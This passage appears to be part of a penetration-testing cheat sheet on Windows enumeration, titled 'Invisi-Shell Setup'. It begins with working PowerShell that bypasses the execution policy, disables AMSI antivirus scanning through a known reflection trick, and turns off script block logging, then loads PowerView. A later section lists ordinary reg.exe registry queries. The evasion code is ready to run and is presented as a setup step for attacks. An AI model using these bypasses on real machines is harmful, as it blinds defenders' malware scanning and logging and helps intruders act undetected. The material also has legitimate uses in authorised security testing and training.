 ## Invisi-Shell Setup

### 1. Bypass Execution Policy and AMSI
```powershell
# Bypass execution policy
Set-ExecutionPolicy -ExecutionPolicy Bypass -Scope Process -Force

# Bypass AMSI
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)

# Disable script block logging
$settings = [Ref].Assembly.GetType('System.Management.Automation.Utils').GetField('cachedGroupPolicySettings','NonPublic,Static').GetValue($null)
$settings['HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging'] = @{}
$settings['HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging'].Add('EnableScriptBlockLogging', 0)
```

### 2. Load PowerView
```powershell
# Import PowerView
. .\PowerView.ps1

# Verify PowerView loaded
Get-Command -Module PowerView | Measure-Object | Select-Object Count
```

## Registry Enumeration Tools

### 1. Native Windows Tools

#### **reg.exe** - Command Line Registry Editor
```cmd
# Basic registry query
reg query "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion" /v ProductName

# Query with recursion
reg query "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall" /s

# Export registry key to file
reg export "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion" C:\temp\windows_version.reg

# Query specific value types
reg query "HKLM\SYSTEM\CurrentControlSet\Services\Netlogon\Parameters" /v MinimumPasswordLength
```

**Tool Explanation:**
- **reg.exe**: Built-in Windows registry command-line tool
- **/v**: Specifies value name to query
- **/s**: Recursively queries all subkeys
- **/f**: Searches for specific text patterns
- **Advantages**: No additional tools needed, built into Windows
- **Disadvantages**: Limited output formatting, harder to parse
